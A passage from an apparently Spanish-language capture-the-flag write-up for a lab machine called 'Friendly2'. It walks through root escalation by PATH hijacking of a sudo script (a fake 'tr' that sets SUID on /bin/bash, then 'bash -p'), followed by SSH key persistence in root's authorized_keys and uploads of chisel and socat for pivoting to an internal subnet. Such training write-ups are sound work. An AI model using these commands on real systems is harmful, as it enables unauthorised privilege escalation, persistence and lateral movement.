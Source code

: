   <img src="/assets/img/commons/Friendly/sudoFriendly2.png" alt="SagaFriendly">
  <figcaption style="font-style: italic; font-size: smaller;">Sudo -l Friendly2</figcaption>
</figure>
- `SETENV` nos permite modificar una variable de entorno durante la ejecución del comando unicamente. 
- `cat /opt/security.sh` vemos el codigo del script y ejecuta comandos con ruta relativa.
- En conclusión, si podemos ejecutar el script como root sin pass, modificar una variable de entorno y el script no usa rutas absolutas, podemos ejecutar un `"PATH Hijacking"`.
- Vamos a crear un archivo malicioso llamado `tr`,  modificaremos la variable `PATH` y así poder cargar nuestro `tr` malicioso.
	- `echo "chmod u+s /bin/bash" > tr` -> Creamos el fichero `tr` con un comando para cambiar `SUID` a la bash.
	- `chmod +x tr` -> otorgamos permisos de ejecución a `tr`.
- Ya está todo listo, vamos a ejecutar el siguiente comando para dar permisos `SUID` a la bash.
<figure style="text-align: center;">
  <img src="/assets/img/commons/Friendly/exploitFriendly2.png" alt="SagaFriendly">
  <figcaption style="font-style: italic; font-size: smaller;">Elevation Friendly2</figcaption>
</figure>
- `bash -p` -> lanzamos una bash con máximos privilegios, al ser `SUID` nos convertiremos en `root`.
- <font color="#e36c09">PWNED!</font>
##### <font color="#245bdb">ROOT</font>
- Vamos hacer el mismo proceso de la máquina `"Friendly"`, copiamos nuestro `id_rsa.pub` en el `authorized_keys` de  `Friendly2` y subimos todos los archivos de Resources (NetScan.sh, socat y chisel) con `scp`:
	- `mkdir /root/.ssh` -> Ejecución en Friendly2
	- `echo "ContenidoID_RSA.pub" > authorized_keys` -> Friendly2

```bash
$> proxychains scp -i ~/.ssh/id_rsa NetScan.sh root@10.0.2.5:/root/
$> proxychains scp -i ~/.ssh/id_rsa socat root@10.0.2.5:/root/
$> proxychains scp -i ~/.ssh/id_rsa chisel root@10.0.2.5:/root/
```
- `ip a` -> en Friendly2 y descubrimos una nueva interface de red por lo tanto otro segmento de red a escanear.
- `./NetScan.sh -o 192.168.20.0/24` -> Escaneo de hosts.
<figure style="text-align: center;">